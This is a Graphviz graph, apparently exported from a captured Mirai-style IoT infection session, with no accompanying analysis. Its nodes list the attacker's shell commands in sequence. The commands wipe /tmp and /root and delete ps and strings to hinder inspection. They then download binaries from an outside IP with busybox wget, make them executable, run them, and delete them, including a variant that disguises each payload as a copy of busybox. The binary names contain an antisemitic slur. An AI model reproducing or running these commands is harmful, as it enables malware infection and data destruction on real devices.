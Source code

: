 digraph {
228 [label="rm -f * "];
228 -> 228
2 [label="busybox rm -rf /tmp/* "];
2 -> 2
4 [label="busybox rm -rf /root/* "];
4 -> 4
6 [label="busybox rm -rf /usr/bin/strings "];
6 -> 6
8 [label="busybox rm -rf /usr/bin/ps "];
8 -> 8
90 [label="busybox wget http://185.29.11.188/jew1 "];
90 -> 90
12 [label="busybox chmod +x jew1 "];
12 -> 104 [label=";,"];
104 [label="./jew1 "];
104 -> 106 [label=";,"];
106 [label="busybox rm -f jew1* "];
106 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
110 [label="busybox wget http://185.29.11.188/jew2 "];
110 -> 110
22 [label="busybox chmod +x jew2 "];
22 -> 124 [label=";,"];
124 [label="./jew2 "];
124 -> 126 [label=";,"];
126 [label="busybox rm -f jew2* "];
126 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
130 [label="busybox wget http://185.29.11.188/jew3 "];
130 -> 130
32 [label="busybox chmod +x jew3 "];
32 -> 144 [label=";,"];
144 [label="./jew3 "];
144 -> 146 [label=";,"];
146 [label="busybox rm -f jew3* "];
146 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
150 [label="busybox wget http://185.29.11.188/jew4 "];
150 -> 150
42 [label="busybox chmod +x jew4 "];
42 -> 164 [label=";,"];
164 [label="./jew4 "];
164 -> 166 [label=";,"];
166 [label="busybox rm -f jew4* "];
166 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
170 [label="busybox wget http://185.29.11.188/jew5 "];
170 -> 170
52 [label="busybox chmod +x jew5 "];
52 -> 184 [label=";,"];
184 [label="./jew5 "];
184 -> 186 [label=";,"];
186 [label="busybox rm -f jew5* "];
186 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
190 [label="busybox wget http://185.29.11.188/jew6 "];
190 -> 190
62 [label="busybox chmod +x jew6 "];
62 -> 204 [label=";,"];
204 [label="./jew6 "];
204 -> 206 [label=";,"];
206 [label="busybox rm -f jew6* "];
206 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
210 [label="busybox wget http://185.29.11.188/jew7 "];
210 -> 210
72 [label="busybox chmod +x jew7 "];
72 -> 224 [label=";,"];
224 [label="./jew7 "];
224 -> 226 [label=";,"];
226 [label="busybox rm -f jew7* "];
226 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
80 [label="busybox wget http://185.29.11.188/jew8 "];
80 -> 80
82 [label="busybox chmod +x jew8 "];
82 -> 84 [label=";,"];
84 [label="./jew8 "];
84 -> 86 [label=";,"];
86 [label="busybox rm -f jew8* "];
86 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
90 [label="busybox wget http://185.29.11.188/jew1 "];
90 -> 90
212 [label="busybox cp /bin/busybox ./ "];
212 -> 94 [label=";,"];
94 [label="busybox cat jew1 busybox "];
94 -> 216 [label=";,"];
216 [label="busybox "];
216 -> 216
98 [label="busybox rm -f jew1 "];
98 -> 100 [label=";,"];
100 [label="busybox cp busybox jew1 "];
100 -> 222 [label=";,"];
222 [label="busybox rm -f busybox "];
222 -> 104 [label=";,"];
104 [label="./jew1 "];
104 -> 106 [label=";,"];
106 [label="busybox rm -f jew1* "];
106 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
110 [label="busybox wget http://185.29.11.188/jew2 "];
110 -> 110
212 [label="busybox cp /bin/busybox ./ "];
212 -> 114 [label=";,"];
114 [label="busybox cat jew2 busybox "];
114 -> 216 [label=";,"];
216 [label="busybox "];
216 -> 216
118 [label="busybox rm -f jew2 "];
118 -> 120 [label=";,"];
120 [label="busybox cp busybox jew2 "];
120 -> 222 [label=";,"];
222 [label="busybox rm -f busybox "];
222 -> 124 [label=";,"];
124 [label="./jew2 "];
124 -> 126 [label=";,"];
126 [label="busybox rm -f jew2* "];
126 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
130 [label="busybox wget http://185.29.11.188/jew3 "];
130 -> 130
212 [label="busybox cp /bin/busybox ./ "];
212 -> 134 [label=";,"];
134 [label="busybox cat jew3 busybox "];
134 -> 216 [label=";,"];
216 [label="busybox "];
216 -> 216
138 [label="busybox rm -f jew3 "];
138 -> 140 [label=";,"];
140 [label="busybox cp busybox jew3 "];
140 -> 222 [label=";,"];
222 [label="busybox rm -f busybox "];
222 -> 144 [label=";,"];
144 [label="./jew3 "];
144 -> 146 [label=";,"];
146 [label="busybox rm -f jew3* "];
146 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
150 [label="busybox wget http://185.29.11.188/jew4 "];
150 -> 150
212 [label="busybox cp /bin/busybox ./ "];
212 -> 154 [label=";,"];
154 [label="busybox cat jew4 busybox "];
154 -> 216 [label=";,"];
216 [label="busybox "];
216 -> 216
158 [label="busybox rm -f jew4 "];
158 -> 160 [label=";,"];
160 [label="busybox cp busybox jew4 "];
160 -> 222 [label=";,"];
222 [label="busybox rm -f busybox "];
222 -> 164 [label=";,"];
164 [label="./jew4 "];
164 -> 166 [label=";,"];
166 [label="busybox rm -f jew4* "];
166 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
170 [label="busybox wget http://185.29.11.188/jew5 "];
170 -> 170
212 [label="busybox cp /bin/busybox ./ "];
212 -> 174 [label=";,"];
174 [label="busybox cat jew5 busybox "];
174 -> 216 [label=";,"];
216 [label="busybox "];
216 -> 216
178 [label="busybox rm -f jew5 "];
178 -> 180 [label=";,"];
180 [label="busybox cp busybox jew5 "];
180 -> 222 [label=";,"];
222 [label="busybox rm -f busybox "];
222 -> 184 [label=";,"];
184 [label="./jew5 "];
184 -> 186 [label=";,"];
186 [label="busybox rm -f jew5* "];
186 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
190 [label="busybox wget http://185.29.11.188/jew6 "];
190 -> 190
212 [label="busybox cp /bin/busybox ./ "];
212 -> 194 [label=";,"];
194 [label="busybox cat jew6 busybox "];
194 -> 216 [label=";,"];
216 [label="busybox "];
216 -> 216
198 [label="busybox rm -f jew6 "];
198 -> 200 [label=";,"];
200 [label="busybox cp busybox jew6 "];
200 -> 222 [label=";,"];
222 [label="busybox rm -f busybox "];
222 -> 204 [label=";,"];
204 [label="./jew6 "];
204 -> 206 [label=";,"];
206 [label="busybox rm -f jew6* "];
206 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
210 [label="busybox wget http://185.29.11.188/jew7 "];
210 -> 210
212 [label="busybox cp /bin/busybox ./ "];
212 -> 214 [label=";,"];
214 [label="busybox cat jew7 busybox "];
214 -> 216 [label=";,"];
216 [label="busybox "];
216 -> 216
218 [label="busybox rm -f jew7 "];
218 -> 220 [label=";,"];
220 [label="busybox cp busybox jew7 "];
220 -> 222 [label=";,"];
222 [label="busybox rm -f busybox "];
222 -> 224 [label=";,"];
224 [label="./jew7 "];
224 -> 226 [label=";,"];
226 [label="busybox rm -f jew7* "];
226 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
230 [label="sleep 1 "];
230 -> 230
}
